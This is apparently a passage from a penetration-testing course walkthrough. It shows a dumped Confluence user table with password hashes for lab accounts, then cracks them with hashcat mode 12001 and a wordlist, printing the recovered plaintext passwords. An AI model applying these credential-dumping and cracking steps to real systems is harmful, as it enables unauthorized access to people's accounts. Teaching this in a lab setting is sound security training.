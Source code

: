 ```
  458753 | admin          | admin           | T      | 2022-08-17 15:51:40.803 | 2022-08-17 15:51:40.803 | Alice      | alice            | Admin         | admin           | Alice Admin            | alice admin            | alice@industries.internal          | alice@industries.internal          | c2ec8ebf-46d9-4f5f-aae6-5af7efadb71c |       327681 | {PKCS5S2}WbziI52BKm4DGqhD1/mCYXPl06IAwV7MG7UdZrzUqDG8ZSu15/wyt3XcVSOBo6bC
 1212418 | trouble        | trouble         | T      | 2022-08-18 10:31:48.422 | 2022-08-18 10:31:48.422 |            |                  | Trouble       | trouble         | Trouble                | trouble                | trouble@industries.internal        | trouble@industries.internal        | 164eb9b5-b6ef-4c0f-be76-95d19987d36f |       327681 | {PKCS5S2}A+U22DLqNsq28a34BzbiNxzEvqJ+vBFdiouyQg/KXkjK0Yd9jdfFavbhcfZG1rHE
 1212419 | happiness      | happiness       | T      | 2022-08-18 10:33:49.058 | 2022-08-18 10:33:49.058 |            |                  | Happiness     | happiness       | Happiness              | happiness              | happiness@industries.internal      | happiness@industries.internal      | b842163d-6ff5-4858-bf54-92a8f5b28251 |       327681 | {PKCS5S2}R7/ABMLgNl/FZr7vvUlCPfeCup9dpg5rplddR6NJq8cZ8Nqq+YAQaHEauk/HTP49
 1212417 | database_admin | database_admin  | T      | 2022-08-18 10:24:34.429 | 2022-08-18 10:24:34.429 | Database   | database         | Admin Account | admin account   | Database Admin Account | database admin account | database_admin@industries.internal | database_admin@industries.internal | 34901af8-b2af-4c98-ad1d-f1e7ed1e52de |       327681 | {PKCS5S2}QkXnkmaBicpsp0B58Ib9W5NDFL+1UXgOmJIvwKjg5gFjXMvfeJ3qkWksU3XazzK0
 1212420 | hr_admin       | hr_admin        | T      | 2022-08-18 18:39:04.59  | 2022-08-18 18:39:04.59  | HR         | hr               | Admin         | admin           | HR Admin               | hr admin               | hr_admin@industries.internal       | hr_admin@industries.internal       | 2f3cc06a-7b08-467e-9891-aaaaeffe56ea |       327681 | {PKCS5S2}EiMTuK5u8IC9qGGBt5cVJKLu0uMz7jN21nQzqHGzEoLl6PBbUOut4UnzZWnqCamV
 1441793 | rdp_admin      | rdp_admin       | T      | 2022-08-20 20:46:03.325 | 2022-08-20 20:46:03.325 | RDP        | rdp              | Admin         | admin           | RDP Admin              | rdp admin              | rdp_admin@industries.internal      | rdp_admin@industries.internal      | e9a9e0f5-42a2-433a-91c1-73c5f4cc42e3 |       327681 | {PKCS5S2}skupO/gzzNBHhLkzH3cejQRQSP9vY4PJNT6DrjBYBs23VRAq4F5N85OAAdCv8S34
(6 rows)

(END)
```

> Listing 12 - The contents of the cwd\_user table in the confluence database.

We obtain multiple rows of user data. Each row contains data for a single Confluence user, including their password hash. We will use [_Hashcat_](https://hashcat.net/hashcat/) to try to crack these.

The [Hashcat mode number](https://hashcat.net/wiki/doku.php?id=example_hashes) for _Atlassian (PBKDF2-HMAC-SHA1)_ hashes is _12001_, so we can pass that to the **\-m** mode flag. After copying the hashes into a file called **hashes.txt**, we'll pass this as the first positional argument. We can then pass the **fastrack.txt** password list that's built into Kali as the final positional argument.

```
kali@kali:~$ hashcat -m 12001 hashes.txt /usr/share/wordlists/fasttrack.txt 
hashcat (v6.2.5) starting

OpenCL API (OpenCL 2.0 pocl 1.8  Linux, None+Asserts, RELOC, LLVM 11.1.0, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=====================================================================================================================================
* Device #1: pthread-11th Gen Intel(R) Core(TM) i7-11800H @ 2.30GHz, 2917/5899 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

...

{PKCS5S2}skupO/gzzNBHhLkzH3cejQRQSP9vY4PJNT6DrjBYBs23VRAq4F5N85OAAdCv8S34:P@ssw0rd!
{PKCS5S2}QkXnkmaBicpsp0B58Ib9W5NDFL+1UXgOmJIvwKjg5gFjXMvfeJ3qkWksU3XazzK0:sqlpass123
{PKCS5S2}EiMTuK5u8IC9qGGBt5cVJKLu0uMz7jN21nQzqHGzEoLl6PBbUOut4UnzZWnqCamV:Welcome1234
...
```